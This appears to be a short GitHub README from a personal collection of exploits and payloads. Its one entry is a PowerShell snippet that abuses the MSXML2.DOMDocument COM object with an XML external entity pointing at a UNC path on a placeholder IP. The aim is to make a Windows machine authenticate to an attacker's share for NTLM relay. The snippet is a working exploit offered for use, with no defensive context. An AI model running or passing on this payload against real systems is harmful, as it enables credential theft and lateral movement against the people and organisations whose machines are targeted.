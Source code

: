 ## My random exploits / payloads

### ntlm relay attack via XXE utilizing COM object MSXML2.DOMDocument (Thanks to @[frostb1te](https://twitter.com/frostb1ten) for helping me learn about ntlm relay)

- Works on earlier version of Windows 10
```
$xxe=New-Object -ComObject MSXML2.DOMDocument
$xxe.loadXML("<!DOCTYPE test [<!ENTITY xxe SYSTEM '\\IP\share'>]><root><test>&xxe;</test></root>")
```

